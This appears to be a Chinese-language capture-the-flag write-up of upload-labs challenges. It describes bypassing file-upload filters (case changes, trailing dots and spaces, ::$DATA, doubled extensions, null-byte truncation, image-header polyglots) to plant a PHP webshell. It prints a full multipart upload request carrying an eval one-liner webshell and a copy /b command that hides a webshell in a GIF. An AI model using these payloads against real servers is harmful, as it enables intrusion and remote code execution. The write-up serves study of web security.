 ### pass5 大小写绕过
使用 `.PHp` 后缀上传 webshell

### pass6 空格绕过
使用 `.php ` 后缀上传 webshell

### pass7 点绕过
使用 `.php.` 后缀上传 webshell

### pass8 `::$DATA`绕过
NTFS文件系统包括对备用数据流的支持。这不是众所周知的功能，主要包括提供与 Macintosh 文件系统中的文件的兼容性。备用数据流允许文件包含多个数据流。每个文件至少有一个数据流。在Windows中，此默认数据流称为`$DATA`。上传`.php::$DATA`绕过。(仅限windows)

### pass9 空格和点绕过
看代码可以看出它只去掉一次空格和点。
上传文件名使用`pass9.php. .`

### pass10 双写绕过
看代码可以看出它将敏感后缀替换为空，双写后缀`.pphphp`绕过。

### pass11 `%00`截断
上传文件发现url会变成
`http://2dda8eda-de3d-48b9-b100-bd03798a6f40.node5.buuoj.cn:81/Pass-11/index.php?save_path=../upload/`
尝试将后面改为 `?save_path=../upload/pass11.php%00`
说是对php版本有要求，无法完成

### pass12
与11一样，不过是 post 方法。php版本有要求，无法完成

### pass13、pass14、pass15
要制造图片马，这里可以使用 yakit 给一句话木马添加图片头
```
------WebKitFormBoundaryhOLXPRsLUETYPM5H
Content-Disposition: form-data; name="upload_file"; filename="pass13.jpg"
Content-Type: application/octet-stream

{{jpg()}}--<?php eval($_POST["pass"]);?>
```
发送成功后网页会返回上传文件的地址 `../upload/9620250412061349.jpg`
连接时要使用 include.php 这个入口来包含文件。可以直接用蚁剑来连接。
`http://116.196.112.253:20080/include.php?file=upload/9620250412061349.jpg`

pass14和15是一样的，将yakit的图片头换成 `{{png()}}--<?php eval($_POST["pass"]);?>`，`{{gif()}}--<?php eval($_POST["pass"]);?>`即可

### pass16 二次渲染绕过
看代码会发现上传的图片被服务器重新渲染修改了，jpg 和 png 逆向改动有些麻烦，看教程说 gif 相对容易，可是还是没搞定。
这里只使用 windows 的 copy 命令成功将木马添加在了图片的末尾（不能用powershell，只能用cmd）：
`copy /b test.gif + pass.php pass.gif`
但是根据教程修改下载下来的 gif 的 hex 后，服务器认为不是 gif 文件了。
